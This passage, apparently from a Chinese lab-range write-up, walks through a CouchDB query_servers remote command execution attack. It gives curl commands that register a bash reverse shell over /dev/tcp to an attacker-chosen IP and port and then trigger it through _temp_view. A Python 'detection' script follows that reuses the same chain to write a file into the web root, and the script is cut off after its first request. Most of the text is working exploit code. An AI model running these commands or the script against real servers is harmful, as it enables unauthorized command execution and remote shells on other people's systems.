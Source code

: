 ![图片](https://uploader.shimo.im/f/kY8it2NOTo4rC4lA.png!thumbnail)
![图片](https://uploader.shimo.im/f/O1aY9ld4PaYmQB2m.png!thumbnail)
![图片](https://uploader.shimo.im/f/8wZgrDElpbkoNMZr.png!thumbnail)
![图片](https://uploader.shimo.im/f/7Yk1OYlREQoZTjha.png!thumbnail)
![图片](https://uploader.shimo.im/f/U24JQEZrh9o8IdR8.png!thumbnail)

[ 方案二：反弹shell ]

所使用的命令：

curl -X PUT 'http://219.153.49.228:40301/_config/query_servers/merver' -d '"/bin/bash -i >& /dev/tcp/<your IP>/<YOUR LISTEN PORT> 0>&1"'


curl -X PUT 'http://219.153.49.228:40301/vultest1/'


curl -X PUT 'http://219.153.49.228:40301/vultest1/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'


curl -X POST 'http://219.153.49.228:40301/vultest1/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-type: application/json'

[ 因为靶场的环境设置，反弹shell没能测试成功，具体按照实际网络情况进行测试 ]

###    【检测脚本】
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import hashlib
import random
import json

def getrandomstr():
   strindex = str(random.random())
   m = hashlib.md5(strindex.encode('utf-8')).hexdigest()
   return str(m)[0:6]

ip = raw_input('待检测IP：')
dbport = raw_input('db 监听端口：')
webport = raw_input('web服务 监听端口：')

dburl = 'http://'+ip+":"+dbport+'/'
weburl = 'http://'+ip+":"+webport+'/'
step1_url_string = '_config/query_servers/cmd'
step2_url_string = 'haha'+getrandomstr()+'/'
step3_url_string = step2_url_string + 'vul'
step4_url_string = dburl+step2_url_string+'_temp_view?limit=11'
filename = 'f'+getrandomstr()

cmdstr = 'echo \" couchDB vul scan\">/var/www/html/'+filename

cmds = json.dumps(cmdstr)
# print cmds

step1_data = cmds
step3_data = '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
step4_data = '{"language":"cmd","map":""}'

step4_header = {'Content-type': 'application/json'}

req1 = requests.put(dburl+step1_url_string,step1_data)
```